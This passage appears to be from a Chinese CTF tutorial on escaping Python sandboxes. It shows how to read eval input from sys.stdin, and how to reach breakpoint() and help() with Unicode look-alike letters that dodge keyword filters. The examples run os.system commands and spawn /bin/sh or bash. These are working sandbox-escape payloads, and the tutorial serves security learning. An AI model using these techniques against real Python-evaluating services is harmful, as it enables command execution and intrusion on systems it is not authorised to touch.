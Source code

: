 打开输入流需要依赖 input 函数，no builtins 的环境中或者题目需要以 http 请求的方式进行输入时，这种方法就无法使用了。

下面是一些打开输入流的方式:
#### sys.stdin.read()
注意输入完毕之后按 ctrl+d 结束输入
```py
>>> eval(sys.stdin.read())
__import__('os').system('whoami')
kali
0
>>>
```
#### sys.stdin.readline()
```py
>>> eval(sys.stdin.readline())
__import__('os').system('whoami')
```


#### sys.stdin.readlines()
```py
>>> eval(sys.stdin.readlines()[0])
__import__('os').system('whoami')
```

在 python2 中，在python 2中，input 函数从标准输入接收输入之后会自动 eval 求值。因此无需在前面加上 eval。但 raw_input 不会自动 eval。

### breakpoint 函数
pdb 模块定义了一个交互式源代码调试器，用于 Python 程序。它支持在源码行间设置（有条件的）断点和单步执行，检视堆栈帧，列出源码列表，以及在任何堆栈帧的上下文中运行任意 Python 代码。它还支持事后调试，可以在程序控制下调用。

在输入 breakpoint() 后可以代开 Pdb 代码调试器，在其中就可以执行任意 python 代码
```py
>>> 𝘣𝘳𝘦𝘢𝘬𝘱𝘰𝘪𝘯𝘵()
--Return--
> <stdin>(1)<module>()->None
(Pdb) __import__('os').system('ls')
a-z0-9.py  exp2.py  exp.py  flag.txt
0
(Pdb) __import__('os').system('sh')
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
```

### help 函数
help 函数可以打开帮助文档. 索引到 os 模块之后可以打开 sh

当我们输入 help 时，注意要进行 unicode 编码，help 函数会打开帮助
```py
𝘩𝘦𝘭𝘱()
```
然后输入 os,此时会进入 os 的帮助文档。
```py
help> os
```
然后在输入 `!sh` 就可以拿到 /bin/sh, 输入 `!bash` 则可以拿到 /bin/bash
```py
help> os
$ ls
a-z0-9.py  exp2.py  exp.py  flag.txt
$ 
```
